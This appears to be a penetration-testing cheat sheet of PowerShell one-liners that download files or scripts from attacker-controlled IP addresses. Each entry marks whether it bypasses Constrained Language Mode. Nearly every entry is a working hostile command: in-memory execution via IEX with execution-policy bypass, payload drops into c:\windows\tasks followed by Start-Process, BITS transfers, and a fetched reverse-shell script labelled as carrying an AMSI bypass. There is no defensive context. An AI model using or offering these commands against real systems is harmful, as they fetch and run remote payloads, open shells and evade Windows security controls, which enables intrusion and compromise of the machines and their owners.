 ## Download/Execute in Memory

### Load Powershell Script directly into memory: 
Bypass CLM | Proxy Aware 
-------|---------
[ ] | [ X ]   

```
$str = "(New-Object System.Net.WebClient).DownloadString('http://192.168.1.121/getuser.ps1') | IEX"
Invoke-Expression $str
```


### Load Powershell Script directly into memory: 
Bypass CLM | Proxy Aware 
-------|---------
[ ] | [ X ]

```
powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://192.168.49.65/run.txt'))
```


## Download Files

###  System.Net.Http Download Files
Bypass CLM | Proxy Aware 
-------|---------
[ ] | [ X ]

```
Add-Type -AssemblyName System.Net.Http;$a=(New-Object System.Net.Http.HttpClient).getasync('http://192.168.49.65/issue.hta'); $a.wait();$o=[System.IO.FileStream]::new('c:\windows\tasks\test.txt', [System.IO.FileMode]::Create, [System.IO.FileAccess]::Write);$a.Result.Content.CopyToAsync($o).Wait();$o.close()
```

### System.net.WebClient DownloadFile
Bypass CLM | Proxy Aware 
-------|---------
[ ] | [ X ]

```
(new-object System.Net.WebClient).downloadFile('http://192.168.49.65/test.txt','c:\windows\tasks\test.txt')
```


### Invoke-RestMethod
Bypass CLM | Proxy Aware 
-------|---------
[ X ] | [ X ]
```
Invoke-RestMethod -Uri http://192.168.49.65/tete.exe -OutFile c:\windows\tasks\test.txt
Start-Process -FilePath "Purecsrunner.exe"
```

### Invoke-WebRequest
Bypass CLM | Proxy Aware 
-------|---------
[ X ] | [ X ]

```
Invoke-WebRequest -Uri 'http://192.168.49.65/Purecsrunner.exe' -OutFile 'Purecsrunner.exe'
Start-Process -FilePath "Purecsrunner.exe"
```

### Powershell IWR
Bypass CLM | Proxy Aware 
-------|---------
[ X ] | [ X ]

or (Appears to work in constrained Language mode (CLN) ) - Proxy aware
```
powershell.exe iwr -uri 192.168.1.2/putty.exe -o C:\Temp\putty.exe
```

### Powershell-Wget
Bypass CLM | Proxy Aware 
-------|---------
[ X ] | [ X ]

```
powershell wget http://192.168.49.65/psscripts/PlainRS-wAmsiByp/rshell-am.txt -outfile c:\windows\tasks\test.exe
```

### Start-bitstransfer
Bypass CLM | Proxy Aware 
-------|---------
[ X ] | [ X ]

```
powershell -c "start-bitstransfer -source http://192.168.49.65/some.exe c:\windows\tasks\some.exe"
```

